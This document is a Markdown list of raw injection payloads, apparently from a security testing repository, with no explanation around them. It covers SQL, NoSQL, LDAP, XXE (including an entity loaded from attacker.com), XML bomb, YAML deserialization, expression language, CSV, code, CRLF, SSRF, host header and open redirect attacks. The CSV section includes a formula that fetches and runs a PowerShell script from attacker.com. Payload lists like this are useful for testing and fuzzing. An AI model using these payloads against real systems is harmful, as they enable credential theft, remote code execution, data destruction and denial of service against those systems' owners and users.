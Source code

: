 # Mixed Injection Attacks

## SQL Injection

### Basic SQL Injection

- Username: `admin' OR '1'='1`
- Password: `' OR '1'='1' --`
- Search: `'; DROP TABLE users; --`
- ID: `1' UNION SELECT NULL,NULL,NULL--`

### Advanced SQL Injection

```sql
' UNION SELECT username, password FROM users--
' UNION SELECT NULL, NULL, table_name FROM information_schema.tables--
'; EXEC xp_cmdshell('dir'); --
'; DECLARE @q varchar(8000); SELECT @q=0x73656c656374202a2066726f6d207573657273; EXEC(@q); --
```

### NoSQL Injection

```json
{"username": {"$gt": ""}, "password": {"$gt": ""}}
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
```

### MongoDB Injection

```javascript
db.users.find({username: {$where: "this.username == 'admin' && this.password.length > 0"}})
{$where: "sleep(5000)"}
```

## LDAP Injection

- Username: `*)(uid=*))(|(uid=*`
- Filter: `admin*)(|(userPassword=*))`
- Search: `*)(objectClass=*))(&(objectClass=*`

## XML External Entity (XXE)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
  <data>&xxe;</data>
</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/evil.dtd">]>
<root>
  <data>&xxe;</data>
</root>
```

## XML Bomb (Billion Laughs)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
]>
<lolz>&lol4;</lolz>
```

## YAML Deserialization

```yaml
!!python/object/apply:os.system
args: ['cat /etc/passwd']
```

```yaml
!!python/object/new:subprocess.Popen
args:
  - ['whoami']
```

## Expression Language Injection

- `${7*7}`
- `#{7*7}`
- `*{7*7}`
- `${{7*7}}`
- `${T(java.lang.Runtime).getRuntime().exec('calc')}`
- `${applicationScope}`
- `${sessionScope}`

## Log Injection

```
Username: admin\n[INFO] User admin logged in successfully\nSensitive data: password123
```

```
Input: test\r\nHTTP/1.1 200 OK\r\nContent-Length: 0\r\n\r\nHTTP/1.1 200 OK\r\nSet-Cookie: admin=true
```

## CSV Injection

```
=cmd|'/c calc'!A1
=1+1+cmd|'/c powershell IEX(wget attacker.com/shell.ps1)'!A1
@SUM(1+1)*cmd|'/c calc'!A1
+cmd|'/c calc'!A1
-cmd|'/c calc'!A1
```

## Code Injection

```python
__import__('os').system('whoami')
exec("__import__('os').system('cat /etc/passwd')")
eval("__import__('subprocess').getoutput('ls -la')")
```

```javascript
eval('alert("XSS")')
Function('return process.env')()
require('child_process').exec('whoami')
```

## CRLF Injection

```
GET /page?param=value%0d%0aSet-Cookie:%20admin=true HTTP/1.1
GET /redirect?url=http://example.com%0d%0aX-Injected-Header:%20value HTTP/1.1
```

## Server-Side Request Forgery (SSRF)

- `http://localhost:8080/admin`
- `http://127.0.0.1:22`
- `http://169.254.169.254/latest/meta-data/`
- `http://metadata.google.internal/computeMetadata/v1/`
- `file:///etc/passwd`
- `gopher://127.0.0.1:25/xHELO`
- `dict://127.0.0.1:11211/stat`

## Host Header Injection

```
Host: attacker.com
Host: localhost
Host: 127.0.0.1
X-Forwarded-Host: attacker.com
X-Forwarded-For: 127.0.0.1
```

## Open Redirect

- `?redirect=//attacker.com`
- `?url=https://attacker.com`
- `?next=/\\attacker.com`
- `?return=javascript:alert('XSS')`

